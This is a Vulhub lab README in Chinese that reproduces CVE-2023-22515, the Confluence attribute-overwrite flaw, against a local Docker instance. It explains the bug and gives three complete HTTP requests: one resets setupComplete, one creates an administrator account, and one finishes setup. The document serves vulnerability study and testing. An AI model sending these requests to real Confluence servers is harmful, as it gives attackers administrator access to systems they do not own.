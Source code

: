 # Atlassian Confluence 属性覆盖导致权限绕过漏洞 CVE-2023-22515

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。

2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行Confluence安装流程并增加管理员账户。

该漏洞不影响8.0.0以前的版本。

参考链接：

- https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html
- https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis

## 环境搭建

Vulhub 执行如下命令启动一个Confluence Server 8.5.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![image-20231018183534534](images/image-20231018183534534.png)

## 漏洞复现

首先，最主要的请求就是覆盖目标Confluence服务器中的`bootstrapStatusProvider.applicationConfig.setupComplete`属性：

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

然后，你就可以使用如下请求创建一个新的管理员账户`vulhub`：

```
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

发送如下请求完成安装步骤：

```
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check
```

最后，直接使用新的`vulhub`账户（密码同样是`vulhub`）来登录Confluence，可见新的管理员已成功增加：

![image-20231018183608388](images/image-20231018183608388.png)